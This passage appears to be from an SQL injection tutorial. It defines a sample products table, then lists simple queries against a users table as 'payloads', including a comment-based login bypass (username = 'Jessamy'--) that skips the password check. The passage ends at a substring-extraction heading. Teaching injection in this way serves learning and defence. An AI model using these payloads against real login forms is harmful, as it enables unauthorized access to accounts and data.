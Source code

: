 
**Products Table:**

```sql
CREATE TABLE `products` (
  `id` int NOT NULL AUTO_INCREMENT,
  `name` varchar(100) NOT NULL,
  `description` text,
  `price` decimal(10, 2) NOT NULL,
  PRIMARY KEY (`id`)
);
```

Sample data:

|id|name|description|price|
|---|---|---|---|
|1|Laptop|15-inch laptop with 8GB RAM|1200.00|
|2|Smartphone|Latest model with 5.7-inch screen|299.99|
|3|Coffee Maker|Brews coffee and has a timer|49.99|

---

### **Payloads and Explanations**

#### **Simple SQL Statements**

1. **`SELECT * FROM users;`**
    
    - **What it does:** Retrieves all rows from the `users` table, including usernames, passwords, and roles.
    - **Use case:** Understand the structure and data within the `users` table.
2. **`SELECT * FROM users WHERE username = 'Jessamy';`**
    
    - **What it does:** Retrieves details about the user `Jessamy` (e.g., `password` and `role`).
    - **Why it’s useful:** Filters user-specific data for further exploitation.
3. **`SELECT * FROM users WHERE username = 'Jessamy' AND password = 'password123';`**
    
    - **What it does:** Validates if the provided username and password are correct.
    - **Why it’s useful:** Used for bypassing authentication.
4. **`SELECT * FROM users WHERE username = 'Jessamy'-- ' AND password = 'password123';`**
    
    - **What it does:** The `--` starts a comment, ignoring everything after it.
        - The query becomes:
            
            ```sql
            SELECT * FROM users WHERE username = 'Jessamy';
            ```
            
    - **Effect:** Bypasses the password check, potentially allowing unauthorized access.

---

#### **Substring Extraction**

